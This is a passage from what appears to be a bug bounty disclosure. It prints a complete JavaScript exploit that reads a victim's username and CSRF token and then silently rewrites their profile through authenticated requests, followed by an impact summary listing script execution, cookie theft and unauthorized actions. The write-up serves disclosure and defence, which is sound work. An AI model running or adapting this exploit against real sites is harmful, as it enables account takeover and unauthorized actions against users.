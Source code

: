 Our external JavaScript file (`exploit.js`) contained the complete exploit:

```javascript
// Function to extract username from DOM
function getUser() {
  return fetch('https://example.com/user-settings/notification', { credentials: 'include' })
    .then(res => res.text())
    .then(html => {
      const doc = new DOMParser().parseFromString(html, 'text/html');
      const script = [...doc.scripts].find(s => s.textContent.includes('window.__PRELOADED_STATE__'));
      const json = script.textContent.match(/JSON\.parse\("(.+?)"\)/)[1]
        .replace(/\\"/g, '"').replace(/\\\\/g, '\\');
      const data = JSON.parse(json);
      return data.user.basic_info.profile_url.split('/')[2];
    })
}

// Function to update user profile
async function updateProfile() {
  const user = await getUser();
  if (!user) return;

  // Extract CSRF token from cookies
  const csrf = document.cookie.split('csrf=')[1]?.split(';')[0];
  const body = new URLSearchParams({
    csrf_token: csrf,
    name: 'ATTACKER',
    bio: 'PWNED',
    website_link: 'https://pwned.com',
  });

  fetch(`https://example.com/users/${user}/edit`, {
    method: 'POST',
    credentials: 'include',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body
  }).then(res => res.text()).then(console.log).catch(console.error);
}

updateProfile();
```

## Impact Assessment

This vulnerability chain allowed attackers to:

1. **Execute arbitrary JavaScript** in the victim's browser context
2. **Steal session cookies** (excluding HTTPOnly cookies)
3. **Modify user profile information** without consent
4. **Potentially perform other authenticated actions** as the victim

## Program Response and Bounty
